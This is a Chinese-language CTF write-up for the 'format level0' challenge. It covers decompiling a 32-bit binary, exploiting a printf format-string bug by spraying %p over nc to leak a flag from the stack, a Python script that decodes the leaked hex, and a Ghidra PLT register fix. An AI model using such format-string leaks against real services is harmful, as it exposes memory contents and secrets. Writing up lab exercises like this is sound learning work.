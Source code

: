 # format level0

## 文件分析

下载`format_level0`, 保护全开
ghidra分析为32位程序

## 逆向

> Ghidra这次解析失误了，完全不可读...  
> 用的Decompiler Explorer，BinaryNinja给出的正确代码
>
> ![GhidraFailure](https://raw.githubusercontent.com/RocketMaDev/CTFWriteup/main/assets/GhidraFail.png)

反编译后，flag已被读取到栈上，并且存在printf漏洞，gdb调试可知该flag位于第7个参数  
笨办法强攻：使用大量%p泄露栈上信息，找到flag后解析(直接%7$s会SIGSEGV)

## EXPLOIT

nc localhost 34109

复制flag开始直到0xa的内容

```python
txt = "<C-S-v>" # 粘贴内容
slices = txt.split('0x')[1:]
flag = ''

for s in slices:
    for i in range(6, -1, -2):
        flag += chr(int(s[i:i+2], 16))

print(flag)
```

> 奇怪的是，别的flag都是moectf开头，这个是JBtf开头，不知道出题者何意

Done.

## HOTFIX

已在github发issue得到回复：只需要将`.plt`, `.plt.sec`和`.plt.got`全部设置好ebx的值即可，
在`.plt`中已给出ebx值，只要在其他段全选后右键设置寄存器的值与`.got`的首地址相同即可

[REF](https://github.com/NationalSecurityAgency/ghidra/issues/5825)

